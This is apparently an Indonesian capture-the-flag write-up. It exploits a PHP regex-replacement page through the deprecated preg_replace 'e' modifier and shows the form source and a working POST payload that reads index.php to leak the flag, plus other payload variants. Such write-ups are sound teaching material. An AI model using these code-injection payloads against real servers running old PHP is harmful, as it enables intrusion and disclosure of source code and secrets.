 Pertama kita disuguhkan sebuah Web Untuk Replacement String

![](/pcre/index.png)


Seperti itulah tampilanya. Ada mbak mbak cantik.

Pertama menurut clue, Bug ini terdapat pada versi `< 7 ` jadi pada versi `7` kebawah. Setelah browsing dan mendapat pencerahan pada atikel ini

https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace


Disitu kida mendapatkan RCE jika mengisi Mod FLag dengan `e` dan `replacement` berisi kode kita

Setelah melihat dengan view source beberapa source memungkinkan bisa dilakukanya RCE

```
 <form action="" method="post">
                <input type="text" name="search" placeholder="Search For Replace"><br>
                <select name="mod">
                        <option value="i">Caseless</option>
                        <option value="m">Multiline</option>
                        <option value="s">Dot All</option>
                        <option value="x">Extended</option>
                </select><br>
                <input type="text" name="replacement" placeholder="Replace With"><br>
                <input type="text" name="subject" placeholder="Subject"><br>
                <button type="submit" name="submit">replace</button>
        </form>
```

Pada select `mod` kita bisa menginspect element salah satu value menjadi `e` dan pada `replacement` kita bisa mengisi dengan PHP code.

Tapi kita TIDAK bisa memasukan shell function seperti `system,shell_exec,dll` oke, Berati kita hanya boleh melakukan `php code exec murni` jadi payload saya seperti ini.

```
search=asd&mod=e&replacement=file_get_contents%28%22index.php%22%29%3B&subject=asdf&submit=
```

Dan didapatkan source dari index dan berisi flag juga.

Kita juga dapat mengunakan banyak fungsi seperti

```
-show_source
-fopen
-print
```

Jika mengunakan payload ini kita harus bisa menebak dimana Flag didefine


```
$searc = "(.*)";
$replacement = 'print("\\1")';
$subject = '$flag';
```
 
 Dan masih banyak lagi payload payload lain yang bisa digunakan! Jika kalian ingin mencoba sendiri silahkan upload index.php pada local kalian dan pastikan versi php kalian 5.6 atau kurang
